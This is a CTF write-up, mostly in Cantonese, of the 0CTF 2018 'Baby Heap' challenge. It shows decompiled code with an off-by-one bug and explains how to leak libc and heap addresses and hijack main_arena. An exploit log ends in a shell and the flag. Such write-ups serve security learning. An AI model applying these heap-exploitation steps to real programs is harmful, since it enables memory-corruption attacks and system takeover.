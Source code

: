 # Baby Heap 2018 - 183pts

題目:
>
>Let's practice the very basic [heap](babyheap.tar.gz) techniques in 2018!
>
>202.120.7.204:127


Menu:

```
   / //_// ____/ ____/ | / /  / /   /   |  / __ )
  / ,<  / __/ / __/ /  |/ /  / /   / /| | / __  |
 / /| |/ /___/ /___/ /|  /  / /___/ ___ |/ /_/ /
/_/ |_/_____/_____/_/ |_/  /_____/_/  |_/_____/

===== Baby Heap in 2018 =====
1. Allocate
2. Update
3. Delete
4. View
5. Exit
Command: 
```

呢條係經典嘅heap題目,有齊 allocate, update, delete, view

vulnerability:

```C
{
    printf("Size: ");
    LODWORD(v1) = sub_140A();
    v4 = v1;
    if ( (signed int)v1 > 0 )
    {
      v1 = *(_QWORD *)(24LL * v3 + a1 + 8) + 1LL;
      if ( v4 <= v1 )
      {
        printf("Content: ");
        sub_1230(*(_QWORD *)(24LL * v3 + a1 + 16), v4);
        LODWORD(v1) = printf("Chunk %d Updated\n", (unsigned int)v3);
      }
    }
    
  ```
  
係update function個到, input content會比input size讀多左1 byte 入去heap到,一個好明顯嘅 off by one bug
  
我地可以用個個 byte shrink 或者extend個 chunk

不過呢題有一個constraint,最多只可以calloc到 0x60 chunk(fast bin),而且call calloc會將舊content 清0

所以無得靠直接free unsorted bin leak libc/heap address

```C

  for ( i = 0; i <= 15; ++i )
  {
    if ( !*(_DWORD *)(24LL * i + a1) )
    {
      printf("Size: ");
      v2 = sub_140A();
      if ( v2 > 0 )
      {
        if ( v2 > 0x58 )
          v2 = 0x58;
        v3 = calloc(v2, 1uLL);
        if ( !v3 )
          exit(-1);
        *(_DWORD *)(24LL * i + a1) = 1;
        *(_QWORD *)(a1 + 24LL * i + 8) = v2;
        *(_QWORD *)(a1 + 24LL * i + 16) = v3;
        printf("Chunk %d Allocated\n", (unsigned int)i);
      }
      return;
    }
  }
}
```

係呢個情況下我地靠update n th chunk,用off by one overwrite下一個chunk(n+1 th chunk)嘅size, 再free下一個chunk(n+1 th chunk)

咁就可以將n+1 th chunk 放入unsorted bin, 之後再view n th chunk leak libc

leak heap address 可以用上面方法放多一個chunk入unsorted bin,再view 或者create一個k size fastbin,free左佢,再靠 off by one, extend一組 chunk, corrupt 包左嘅一個chunk做k size, 由於fastbin係 single linked list所以 leak到 heap address



# Flag

```
flag{have_fun_with_fastbin}
```

logs:
```
# [+] Opening connection to 202.120.7.204 on port 127: Done
# [*] '/root/Desktop/CTF_Game/0ctf_2018/baby_heap/libc.so.6'
#     Arch:     amd64-64-little
#     RELRO:    Partial RELRO
#     Stack:    Canary found
#     NX:       NX enabled
#     PIE:      PIE enabled
# [*] Leaking heap addr
# [*] Leaked heap addr :0x562ecd700000
# [*] Leaking libc
# [*] Leaked libc :0x7f58a9390b58
# [*] Leaked libc base :0x7f58a8ff7000
# [*] __malloc_hook : 0x7f58a9390af0
# [*] __free_hook : 0x7f58a9392788
# [*] main_arena : 0x7f58a9390b00
# [*] main_arena : 0x7f58a9390b00
# [*] Hijacking main_arena
# 73
# [*] removing old 0x20 to clean up the list
# [*] starting attack :)
# [*] Switching to interactive mode
# Chunk 9 Updated
# 1. Allocate
# 2. UpdateSize: total 84
# drwxr-xr-x  22 root root  4096 Mar 14 09:48 .
# drwxr-xr-x  22 root root  4096 Mar 14 09:48 ..
# drwxr-xr-x   2 root root  4096 Mar 30 19:15 bin
# drwxr-xr-x   3 root root  4096 Mar 30 19:16 boot
# drwxr-xr-x  16 root root  2960 Mar 14 14:37 dev
# drwxr-xr-x  77 root root  4096 Mar 30 19:21 etc
# drwxr-xr-x   3 root root  4096 Mar 30 19:16 home
# lrwxrwxrwx   1 root root    29 Mar 14 09:48 initrd.img -> boot/initrd.img-4.9.0-6-amd64
# lrwxrwxrwx   1 root root    29 Mar 14 09:35 initrd.img.old -> boot/initrd.img-4.9.0-4-amd64
# drwxr-xr-x  14 root root  4096 Mar 14 09:40 lib
# drwxr-xr-x   2 root root  4096 Mar 28 21:47 lib64
# drwx------   2 root root 16384 Mar 14 09:35 lost+found
# drwxr-xr-x   3 root root  4096 Mar 14 09:35 media
# drwxr-xr-x   2 root root  4096 Mar 14 09:35 mnt
# drwxr-xr-x   2 root root  4096 Mar 14 09:35 opt
# dr-xr-xr-x 101 root root     0 Mar 14 14:37 proc
# drwx------   4 root root  4096 Mar 31 06:27 root
# drwxr-xr-x  17 root root   580 Mar 31 11:05 run
# drwxr-xr-x   2 root root  4096 Mar 30 19:15 sbin
# drwxr-xr-x   2 root root  4096 Mar 14 09:35 srv
# dr-xr-xr-x  13 root root     0 Mar 31 11:43 sys
# drwx-wx-wt   8 root root  4096 Apr  1 02:17 tmp
# drwxr-xr-x  10 root root  4096 Mar 14 09:35 usr
# drwxr-xr-x  11 root root  4096 Mar 14 09:35 var
# lrwxrwxrwx   1 root root    26 Mar 14 09:48 vmlinuz -> boot/vmlinuz-4.9.0-6-amd64
# lrwxrwxrwx   1 root root    26 Mar 14 09:35 vmlinuz.old -> boot/vmlinuz-4.9.0-4-amd64
# $ cat flag
# cat: flag: No such file or directory
# $ cd home
# $ ls
# babyheap
# $ cd babyheap
# $ cat flag
# flag{have_fun_with_fastbin}
# [*] Got EOF while reading in interactive
# $  
```
